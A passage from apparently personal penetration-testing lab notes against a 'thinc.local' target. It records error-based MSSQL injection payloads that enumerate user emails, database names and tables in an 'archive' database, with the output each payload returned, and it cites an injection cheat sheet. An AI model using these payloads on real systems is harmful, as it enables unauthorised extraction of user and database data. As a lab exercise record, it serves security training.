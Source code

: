 
![[15. pedro thinc.local.png]]


```shell
#4th email

', CONVERT(INT,(SELECT top 1 email FROM users WHERE email NOT IN ('eric@thinc.local', 'alice@thinc.local','pedro@thinc.local'))))--

email found: admin@thinc.local
```

![[16. admin @thinc.local.png]]

```shell
', CONVERT(INT,(SELECT top 1 email FROM users WHERE email NOT IN ('eric@thinc.local', 'alice@thinc.local','pedro@thinc.local','admin@thinc.local'))))--

# no error, believe this is all emails.
```


```shell
# names of databases
',CONVERT(INT,db_name(1)))--
contains master

',CONVERT(INT,db_name(2)))--
contains tempdb

',CONVERT(INT,db_name(3)))--
contains model

',CONVERT(INT,db_name(4)))--
contains msdb

',CONVERT(INT,db_name(5)))--
contains newsletter

',CONVERT(INT,db_name(6)))--
contains archive

',CONVERT(INT,db_name(7-9)))--
contains nothing columns over
```

```shell
# godsend
https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/
```

```shell
# Extract tables from another database (change other_database and increase N):
', CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM archive.information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--

# archive database table 1 = pmanager
```
